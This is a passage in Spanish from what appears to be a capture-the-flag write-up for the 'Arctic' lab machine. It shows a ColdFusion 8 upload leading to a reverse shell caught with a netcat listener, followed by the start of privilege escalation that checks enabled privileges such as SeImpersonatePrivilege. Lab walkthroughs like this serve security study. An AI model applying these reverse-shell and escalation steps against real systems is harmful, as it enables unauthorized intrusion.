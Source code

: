 * Y si todo va bien deberíamos recibir una petición por **GET** en el servidor web de python y debería salir el archivo dentro del directorio CFIDE

<figure><img src="../../../../.gitbook/assets/rs.PNG" alt=""><figcaption></figcaption></figure>

* Lo abrimos y deberíamos de recibir la **reverse shell**

```shell
> rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.11] 49651
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

\> whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>
```

#### Escalada de Privilegios

Ahora solo faltaría elevar de privilegios al usuario **administador**

```shell
> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
